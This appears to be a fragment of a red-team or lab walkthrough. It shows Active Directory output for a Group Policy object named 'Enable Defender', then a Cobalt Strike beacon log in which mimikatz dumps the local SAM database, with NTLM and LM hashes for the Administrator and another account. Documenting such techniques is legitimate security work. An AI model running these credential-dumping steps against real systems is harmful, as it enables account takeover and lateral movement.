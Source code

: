 ```shell
whenchanged                    : 1/31/2020 3:12:32 PM

cn                             : {{8D1FAFE4-01D8-491E-B6B0-49C6793B40FE}}

objectclass                    : {top, container, groupPolicyContainer}

displayname                    : Enable Defender

gpcfunctionalityversion        : 2

usnchanged                     : 241767

showinadvancedviewonly         : True

gpcmachineextensionnames       : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}]

instancetype                   : 4

versionnumber                  : 2

usncreated                     : 241754

flags                          : 0

objectcategory                 : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=corp,DC=local

gpcfilesyspath                 : \\corp.local\SysVol\corp.local\Policies\{8D1FAFE4-01D8-491E-B6B0-49C6793B40FE}

dscorepropagationdata          : 1/1/1601 12:00:00 AM

```

```
[10/06 16:27:26] beacon> mimikatz !lsadump::sam
[10/06 16:27:53] [*] Tasked beacon to run mimikatz's !lsadump::sam command
[10/06 16:27:57] [+] host called home, sent: 813679 bytes
[10/06 16:27:59] [+] received output:
Domain : MS01
SysKey : a72365a2384f0ff6ad435c166a5bbebc
Local SID : S-1-5-21-4116505479-897374152-2296881962

SAMKey : 8e8ec73c9103331c928f72c2e48d31be

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7facdc498ed1680c4fd1448319a8c04f

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000003e9 (1001)
User : justalocaladmin
  Hash NTLM: 9ec2c1f739466d0d9e1bd7d792bda6fb
    lm  - 0: 1d2e5e158fe38e31e7a9e6354fd68ebc
    lm  - 1: 662b5eb931c629a1959f21ab24fb5518
    lm  - 2: 278edb6bcaa746e8bb7bf0f05cc9d19c
    lm  - 3: 879a875314098e1b2ebb6b1b5c9a2b1a
    lm  - 4: b7ba9afd3fb1cdf34bf65734ddb4a739
```